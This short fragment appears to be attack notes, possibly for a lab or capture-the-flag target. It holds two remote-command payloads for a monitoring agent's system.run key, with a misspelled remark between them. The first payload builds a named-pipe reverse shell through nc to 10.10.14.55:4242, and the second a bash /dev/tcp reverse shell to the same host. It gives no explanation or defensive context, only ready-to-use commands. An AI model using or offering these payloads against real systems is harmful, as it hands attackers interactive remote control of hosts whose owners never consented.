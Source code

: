 ```bash
system.run[/bin/bash -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.55 4242 >/tmp/f" , nowait]
```

this cyrtanly fill work
```bash
system.run[/bin/bash -c "bash -i >& /dev/tcp/10.10.14.55/4242 0>&1" , nowait]
```